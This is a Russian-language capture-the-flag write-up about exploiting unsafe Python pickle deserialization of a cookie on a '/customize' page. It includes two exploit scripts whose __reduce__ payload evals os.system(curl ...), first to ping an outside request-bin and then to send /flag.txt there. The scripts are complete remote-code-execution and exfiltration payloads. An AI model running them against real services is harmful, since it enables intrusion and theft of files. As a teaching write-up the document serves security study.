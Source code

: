 Сразу после прочтения названия таска становится понятно, что он будет связан с "опасной" сериализацией в модуле pickle.

Немного осмотрев сервис, понимаем, что у нас есть возможность кастомизировать внешний вид текста на главной странице путем изменения параметров на /customize, которые в свою очередь сохраняются в куках. На этой же странице и происходит сериализация. Теперь нужно написать/нагуглить эксплойт. 

В интернете достаточно примеров эксплойтов, однако в процессе эксплуатации становится понятно, что некоторые модули(например, builtins) забанены, нужно искать другие пути. 

На странице документации пикла узнаем о возможности использования разных протоколов(0-5), отличающихся своей новизной. Попробуем наш эксплойт с 0ым протоколом.

```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl  http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Для этого пытаемся сделать eval(), c помощью которого импортируем os и вызваем system(). Следующая часть пейлоада - попытка отправить себе запрос на request-bin через curl. Копируем полученный base64 и заменяем значение куки custom_style.

Получаем запрос, значит эксплойт сработал. Осталось отправить себе флаг, однако для этого нужно понять, где он лежит. Пробуем несколько раз, получаем флаг. Для отправки файла себе я использовал опцию --data-binary.


Финальный эксплойт:
```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl --data-binary @"/flag.txt" http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Флаг:
	MSKCTF{pickle_cant_be_easily_secured} 
